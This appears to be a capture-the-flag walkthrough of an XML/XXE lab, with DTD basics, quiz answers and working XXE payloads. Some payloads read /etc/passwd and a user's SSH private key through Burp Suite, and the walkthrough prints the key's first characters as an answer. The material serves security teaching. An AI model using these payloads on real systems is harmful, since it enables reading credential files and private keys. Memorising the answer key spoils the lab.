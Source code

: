 # Task 12\~16



## Extensible Markup Language <a href="#extensible-markup-language" id="extensible-markup-language"></a>

### Full form of XML <a href="#full-form-of-xml" id="full-form-of-xml"></a>

#### Answer <a href="#answer" id="answer"></a>

Extensible Markup Language

### Is it compulsory to have XML prolog in XML documents? <a href="#is-it-compulsory-to-have-xml-prolog-in-xml-documents" id="is-it-compulsory-to-have-xml-prolog-in-xml-documents"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

no

### Can we validate XML documents against a schema? <a href="#can-we-validate-xml-documents-against-a-schema" id="can-we-validate-xml-documents-against-a-schema"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

yes

### How can we specify XML version and encoding in XML document? <a href="#how-can-we-specify-xml-version-and-encoding-in-xml-document" id="how-can-we-specify-xml-version-and-encoding-in-xml-document"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

XML Prolog

## DTD <a href="#dtd" id="dtd"></a>

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named note.dtd with the following content:

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD. Ex: Below is given an XML document that uses note.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

```
!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

NOTE: #PCDATA means parseable character data.
```

### How do you define a new ELEMENT? <a href="#how-do-you-define-a-new-element" id="how-do-you-define-a-new-element"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

!ELEMENT

### How do you define a ROOT element? <a href="#how-do-you-define-a-root-element" id="how-do-you-define-a-root-element"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

!DOCTYPE

### How do you define a new ENTITY? <a href="#how-do-you-define-a-new-entity" id="how-do-you-define-a-new-entity"></a>

#### Answer <a href="#answer-6" id="answer-6"></a>

!ENTITY

## XXE Payload <a href="#xxe-payload" id="xxe-payload"></a>

1. The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

1. We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file **/etc/passwd**.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

## XML External Entity - Exploiting <a href="#xml-external-entity---exploiting" id="xml-external-entity---exploiting"></a>

```xml
<!DOCTYPE replace [<!ENTITY name "renan"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### What is the name of the user in /etc/passwd <a href="#what-is-the-name-of-the-user-in-etcpasswd" id="what-is-the-name-of-the-user-in-etcpasswd"></a>

1. Open Burpsuite
2. Turn on intercept
3.  Inject XML attack

    ```xml
    <?xml version="1.0"?>
     <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
     <root>&read;</root>
    ```
4. Send attack to repeater
5. Change **xxe** with a more human readable format

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

#### Answer <a href="#answer-7" id="answer-7"></a>

Found user **falcon**

### Where is falcon's SSH key located? <a href="#where-is-falcons-ssh-key-located" id="where-is-falcons-ssh-key-located"></a>

#### Answer <a href="#answer-8" id="answer-8"></a>

```
/home/falcon/.ssh/id_rsa
```

### What are the first 18 characters for falcon's private key <a href="#what-are-the-first-18-characters-for-falcons-private-key" id="what-are-the-first-18-characters-for-falcons-private-key"></a>

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:////home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

#### Answer <a href="#answer-9" id="answer-9"></a>

```
MIIEogIBAAKCAQEA7b
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
